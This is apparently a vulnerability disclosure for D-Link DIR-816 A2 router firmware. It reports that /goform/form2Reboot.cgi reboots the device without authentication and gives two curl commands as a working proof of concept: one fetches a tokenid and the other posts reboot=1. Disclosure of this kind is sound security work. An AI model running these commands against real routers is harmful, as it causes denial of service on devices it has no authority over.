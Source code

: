 # D-link DIR-816 A2_v1.10CNB04.img reset router without authentication

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/form2Reboot_cgi/vuln1.png)

Vulnerability occurs in /goform/form2Reboot.cgi, The reboot value is 1 to execute the reboot statement

## Poc

The first thing you need to do is to get the tokenid
```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```
curl -i -X POST http://192.168.0.1/goform/form2Reboot.cgi -d tokenid=xxxxx -d 'reboot=1'
```

The router will then reboot

